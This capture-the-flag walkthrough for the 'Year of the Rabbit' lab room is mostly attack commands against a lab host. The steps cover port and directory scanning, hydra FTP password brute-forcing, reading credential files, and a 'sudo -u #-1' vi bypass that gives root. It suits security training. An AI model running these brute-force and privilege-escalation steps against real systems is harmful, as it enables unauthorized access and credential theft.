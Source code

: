# Year of the Rabbit

### **What is the user flag?**

```
nmap 10.10.74.247
```

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-31-07.png>)

#### http

```
gobuster dir -u http://10.10.74.247/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
curl http://10.10.74.247/sup3r_s3cr3t_fl4g.php
```

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-33-32.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-33-47.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-35-05.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-35-14.png>)

```
wget http://10.10.74.247/WExYY2Cv-qU/Hot_Babe.png
strings Hot_Babe.png
strings Hot_Babe.png | tail -82 > password.txt
hydra -l ftpuser -P password.txt ftp://10.10.74.247 -I -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-39-00.png>)

#### ftp

```
lftp 10.10.74.247 -u ftpuser,5iez1wGXKfPKQ
lftp :/> cat Eli\'s_Creds.txt 
```

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-42-34.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-45-37.png>)

#### ssh

```
ssh ftpuser@10.10.74.247
find / -name user.txt 2>/dev/null
cat /home/gwendoline/user.txt
ls -l /home/gwendoline/user.txt
find / -name *s3cr3t* 2>/dev/null
cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
```

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-51-12.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-22 08-51-15.png>)

### **What is the root flag?**

```
sudo -l
sudo -u #-1 /usr/bin/vi /home/gwendoline/user.txt
:r /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-22 09-31-39.png>)

## :link: Support Material

{% embed url="https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/" %}

